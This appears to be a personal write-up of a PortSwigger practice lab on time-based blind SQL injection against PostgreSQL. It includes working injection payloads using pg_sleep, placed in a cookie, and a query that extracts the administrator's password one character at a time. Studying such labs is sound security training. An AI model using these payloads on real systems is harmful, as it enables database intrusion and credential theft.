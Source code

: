 # Blind SQL injection with time delays and information retrieval

#BLINDSQLI 
#WRITEUP 

The lab scenario is the same as [[Blind SQL injection with time delays]] but in this case the attacker must retrieve the password of the `administrator` user in the `users` table that contains an `username` and `password` columns.

## Trigger a time delay

First try to trigger a time delay with one of the payloads of [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) to determine the database type and construct an accurate query to exploit the vulnerability.

Testing the payloads I determined that the database type is `PostgreSQL` as I was able to trigger a time delay.

```SQL
' ; SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END --
```

Inject the cookie value with the URL encoded payload.

## Construct the query
```SQL
SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1) > 'm')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```

## Retrieve data

Inject the cookie value with the URL encoded payload.

```SQL
' ; SELECT CASE WHEN ((SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1) != 'm')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```


I triggered the time delay then I automated the process and set a lower delay time in a Python script available [here](https://github.com/JoseDRamirezM/InfoSec/blob/main/Web%20Security%20Academy/SQL%20injection/Attacks/Blind%20SQL%20injection/labs/Blind%20SQL%20injection%20with%20time%20delays%20and%20information%20retrieval/exploit.py)
